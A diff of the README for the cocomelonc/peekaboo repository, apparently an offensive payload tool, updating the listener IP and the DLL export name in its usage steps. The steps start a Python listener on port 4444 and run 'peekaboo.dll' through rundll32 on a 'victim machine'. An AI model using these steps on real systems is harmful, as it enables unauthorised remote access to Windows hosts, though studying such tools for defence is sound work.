

Before and after one commit to cocomelonc/peekaboo, a Markdown page: README.md, the part around the change. Drawn GitHub-style; pictures changed too: screenshots/1.png, screenshots/2.png, screenshots/3.png.

Commit message:
update readme: test windows 10 x64

````diff
--- a/README.md
+++ b/README.md
@@ -19,15 +19,15 @@ ip a
 
 run python script with flags:
 ```bash
-python3 peekaboo.py -l 10.9.1.6 -p 4444
+python3 peekaboo.py -l 192.168.1.64 -p 4444
 ```
 
 ![run python script](./screenshots/2.png?raw=true)
 
-### then on victim machine (windows x64):
+### then on victim machine (windows 10 x64):
 run on powershell or cmd promt:
 ```cmd
-rundll32 .\peekaboo.dll, BMzUWjfJOsdaiCQzbTLM
+rundll32 .\peekaboo.dll, fcPxxUxbQWtknoIZQxehCd
 ```
 
 ![run on victim machine](./screenshots/3.png?raw=true)
````
Also changed, not shown: screenshots/4.png, screenshots/5.png.
